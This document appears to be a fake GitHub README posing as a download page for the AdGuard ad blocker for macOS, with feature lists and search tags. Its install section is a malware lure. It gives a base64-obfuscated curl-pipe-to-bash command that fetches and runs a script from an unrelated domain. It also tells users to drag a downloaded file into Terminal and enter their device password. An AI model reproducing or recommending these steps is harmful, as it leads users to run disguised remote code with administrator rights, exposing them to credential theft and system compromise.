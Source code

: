 # AdGuard for Mac Download

![AdGuard Screenshot 1](https://cdn.adguard.com/public/Adguard/Blog/Mac/2-6-0/DNS.png?%21=&mw=1360)

---

## 📥 Download AdGuard for macOS

[![⬇️ Download AdGuard](https://img.shields.io/badge/Download-AdGuard%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/AdGuard)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is AdGuard for Mac?

AdGuard for Mac is a powerful ad blocker and privacy tool built natively for macOS. It removes ads, trackers, banners, pop-ups, and malicious scripts across all browsers and apps — not just Safari.

It features system-wide content filtering, DNS protection, parental controls, and detailed privacy statistics. With native support for Apple Silicon (M1, M2, M3) and deep customization through filter lists and exclusions, AdGuard offers one of the most complete ad-blocking experiences available on Mac.

Whether you're browsing, streaming, working, or gaming, AdGuard enhances your speed, safety, and productivity by clearing the digital noise and securing your online presence.

---

![AdGuard Screenshot 2](https://cdn.adtidy.org/content/kb/ad_blocker/mac/filters.png)

---

## ⚙️ Key Features

- 🚫 System-Wide Ad Blocking – Works across browsers and applications  
- 🛡️ DNS Protection – Prevents access to malicious domains  
- 📉 Privacy Stats – Monitor trackers and blocked connections  
- 🧱 Custom Filters – Add or disable specific rule sets  
- 🔐 Parental Control – Block adult and unsafe content  
- 💻 Native macOS App – Built for Monterey, Ventura, Sonoma  
- 🧠 Apple Silicon Support – Runs natively on M1/M2/M3  
- 🧰 Advanced Configuration – Whitelists, user rules, and filtering logs  

---

## ✅ Suitable For

- Users wanting ad-free browsing across all apps  
- Parents setting up content restrictions  
- Privacy-conscious individuals blocking trackers  
- Professionals boosting performance and safety  
- Anyone tired of YouTube, Facebook, and pop-up ads  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

adguard mac, ad guard mac, ad guard for mac, adguard mac os, mac adguard, adguard 2.7 mac, adguard download mac, adguard for mac free, adguard for mac review, adguard for safari mac, adguard mac download, adguard mac free, adguard mac m1, adguard mac review, adguard mac safari
